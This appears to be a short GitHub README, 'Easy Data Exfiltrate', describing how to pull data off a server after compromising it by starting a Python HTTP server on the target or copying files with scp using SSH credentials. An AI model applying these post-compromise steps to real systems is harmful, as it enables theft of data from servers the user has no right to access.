 # Easy Data Exfiltrate

This repository contains the techniques for data exfiltration after compromising a server. 

## Using Python Server
The easiest method will be to start a Python HTTP Server on the target server, and downloading
the required data in personal system through web browser. 

In Python 3.x the following command can be used to start a python server:

```bash
python3 -m http.server 8000
```

In Python 2.x the following command can be used to start a python server. 

```bash
python -m SimpleHTTPServer 8000
```

But mostly, you will not find python installed on the compromised system, so you can try the next technique. 

## Through SSH

If the SSH port is open and you have the SSH credentials, then the data can be transferred through ssh easily using the technique given below:

Run This command on your own system

```bash
scp user@ServerIP:/home/location/of/the/data.zip Location/on/MySystem.zip
```
> [!NOTE]
> This will ask for the SSH Password if you are not in the authorized_keys.


The above command will simply copy the file/data from remote server just like the `cp` command copies files in your own system. 



